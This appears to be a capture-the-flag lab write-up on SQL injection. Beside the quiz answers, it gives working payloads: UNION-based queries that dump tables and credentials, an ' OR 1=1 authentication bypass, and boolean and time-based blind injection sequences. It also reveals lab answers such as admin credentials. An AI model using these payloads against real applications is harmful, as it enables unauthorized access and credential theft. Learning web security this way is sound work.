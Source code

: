 # SQL Injection

Learn how to detect and exploit SQL Injection vulnerabilities.

Nov 23, 2021

#### `Task 1: Brief`
##### - What does SQL stand for?
	- Structured Query Language
	
#### `Task 2: What is a Database?`
##### - What is the acronym for the software that controls a database?
	- DBMS
##### - What is the name of the grid-like structure which holds the data?
	- Table
	

#### `Task 3: What is SQL?`
##### - What SQL statement is used to retrieve data?
	- SELECT
##### - What SQL clause can be used to retrieve data from multiple tables?
	- UNION
##### - What SQL statement is used to add data?
	- INSERT


#### `Task 4: What is SQL Injection?`
##### - What character signifies the end of an SQL query?
	- ;


#### `Task 5: In-Band SQLi?`
Deploy the machine, then use the given commands by inserting it next to the last parameter.
This will give you the database, then use the next one 
```
0 UNION SELECT 1,2,database()
```
This will show the different table name in the sqli_one database
```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```
This will show you the diffent column name in the table
```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
This will display the contents of that column
```
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
By doing the steps above you will be able to find the username and password, then you can proceed inputting it in the login form and you will get the flag in the next page.



#### `Task 6: Blind SQLi - Authentication Bypass`
The next one is basically bypassing the authentication with the help of simple SQL injection,
In the login form you can basically input any username you want but in the password section I used- 
```
' OR 1=1;--
```
This means that the server will receive the payload as an true statement and will proceed to login the account.



#### `Task 7: Blind SQLi - Boolean Based`
This task will have an indicator when the characters that are being type are equal to the actual name of the database,table or column.
When the application will return true that means that you are typing the correct character or number. 

Firstly, we will use this code and it will return true since there are three columns in that table.
```
admin123' UNION SELECT 1,2,3;-- 
```
Then, we will guess for the correct database name for us to exploit the database.
```
admin123' UNION SELECT 1,2,3 where database() like 's%';--
admin123' UNION SELECT 1,2,3 where database() like 'sq%';--
admin123' UNION SELECT 1,2,3 where database() like 'sql%';--
```
By doing this cycle as much as possible the indicator will return true, so that we will know if we are getting the exact name for the database.
Then after we get the actual name of the database we will now search for the table name.
```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'u%';--
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'us%';--
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'use%';--
```
After that we will now proceed getting the column name.
```
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'id%';--
```
But we did find the other column name that is `id` and it is just basically nonsense for us so we will ignore it and continue finding other column name.
```
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'userna%' and COLUMN_NAME !='id';--
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'passwo%' and COLUMN_NAME !='id';--
```
After we find the two column name that seems valuable to us which is `username` and `password` then we will now proceed to find the row or data in that column.
```
admin123' UNION SELECT 1,2,3 from users where username like 'a%';--
admin123' UNION SELECT 1,2,3 from users where username like 'ad%';--
admin123' UNION SELECT 1,2,3 from users where username like 'adm%';--
```
Then for the password-
```
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '3%';--
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '38%';--
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '384%';--
```


#### `Task 8: Blind SQLi - Time Based`
This is the same as the previous task but instead it will use the time to indicate that you are getting the exact characters for the actual name in the database.
First, we will test the application by using this code-
```
admin123' UNION SELECT SLEEP(5),2;--
```
After we know that the SLEEP command works, it represents that it is vulnerable to that attack.
```
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 's%';--
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'sq%';--
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'sql%';--
```
Then after several try I found that the database name is `sqli_four`, then we will continue finding the table name.
Actually I just used the same command from previous task but just changing some code in there.
```
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'us%';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'use%';--
```
Then I found that the table name is `users` and by knowing that we can now proceed to find the columns in that table.
Again, I used the same command from the previous task just doing some modifications.
```
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'user%' and COLUMN_NAME !='id';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'userna%' and COLUMN_NAME !='id';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'passw%' and COLUMN_NAME !='id';--
admin123' UNION SELECT SLEEP(2),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'passwor%' and COLUMN_NAME !='id';--
```
We now know that in the `users` table we have `username` and `password` column sitting in there.
Then, we will now find the actual row or data that the columns contain.
```
admin123' UNION SELECT 1,2,3 from users where username like 'a%';--
admin123' UNION SELECT 1,2,3 from users where username like 'adm%';--
```
Then
```
admin123' UNION SELECT SLEEP(2),2 from users where username ='admin' and password like '4%';--
admin123' UNION SELECT SLEEP(2),2 from users where username ='admin' and password like '4%1';--
admin123' UNION SELECT SLEEP(2),2 from users where username ='admin' and password like '49%1';--
```
After a few try we now know the correct username and password. `admin:4961`



#### `Task 9: Out-of-Band SQLi`
##### - Name a protocol beginning with D that can be used to exfiltrate data from a database.
	- DNS



#### `Task 10: Remediation`
##### - Name a method of protecting yourself from an SQL Injection exploit.
	- Prepared Statements
